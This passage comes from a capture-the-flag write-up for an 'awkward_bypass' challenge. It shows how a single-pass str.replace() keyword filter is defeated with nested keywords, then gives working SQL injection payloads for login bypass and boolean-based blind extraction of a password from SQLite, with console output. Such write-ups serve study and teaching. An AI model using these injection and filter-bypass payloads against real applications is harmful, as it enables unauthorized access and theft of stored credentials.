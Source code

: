 ```sh
utopia@messiah:~/Documents/CTFs/awkward_bypass$ python3 sql.py   
' OR 1=1 -- -  <-- Username field
blabla  <-- Password field
SELECT * FROM users WHERE username=''  1=1 -- -' AND password='blabla' <-- result of filtering
```

Now let's try to bypass it using the same principle of `str.replace()`.

```sh
utopia@messiah:~/Documents/CTFs/awkward_bypass$ python3 sql.py   
' OorR 1=1 -- -  <-- Username field
blabla  <-- Password field
SELECT * FROM users WHERE username='' OR 1=1 -- -' AND password='blabla'  <-- result of filtering
```

We've now officially bypassed the blacklisting/filtering.

## SQL Injection

### Testing if boolean is the correct way to go

We can bypass authenticated pretty easily with the payload `' OorR 1=1; -- -`, this is pretty standard and basic.

![injected](images/imginaryCTF/injected.png)

It works! Except... we don't have the flag, **yet**. We now have to enumerate the table name column `password` which contains the flag using boolean SQLi.

### Exploiting boolean SQLi to retrive flag from DB

We can also verify quickly verify for boolean SQLi with the payload `' OorR 3>1; -- -`, if the condition evalutes to True, we'll get a `Ummmmmmm, did you expect a flag to be here?` page, if not, we'll get `Error`.

Equipped with this information and also a filter bypass, we can now with ease enumerate the database with this payload

```
`' OorR 1=1 AandND (SEselectLECT hex(substr(paASsswoORrd,1,1)) FRfromOM sqlite_maASster WHwhereERE type='tatableble' AandND tbl_name NnnoOTOT LIlikeKE 'sqlite_%' LIlimitMIT 1 OofFFSsetET 0) > hex('A'); -- -`
```

or without all the filter bypass mess,

```
' OR 1=1 AND (SELECT hex(substr(password,1,1)) FROM sqlite_master WHERE type='table' AND tbl_name NOT LIKE  'sqlite_%' LIMIT 1 OFFSET 0) > hex('A'); -- -
```

Now, the payload does not make much sense without any information on how it works, basically, if we execute this into our makeshift SQLite database, it'll make more sense.

```
sqlite> SELECT * FROM users WHERE username='' OR 1=1 AND (SELECT hex(substr(password,1,1)) FROM sqlite_master WHERE type='table' AND tbl_name NOT LIKE  'sqlite_%' LIMIT 1 OFFSET 0) > hex('A'); -- -' AND password=''  
administrator|password123  
john.william|password  
sqlite> SELECT * FROM users WHERE username='' OR 1=1 AND (SELECT hex(substr(password,1,1)) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' limit 1 offset 0) > hex('z');           
sqlite>
```
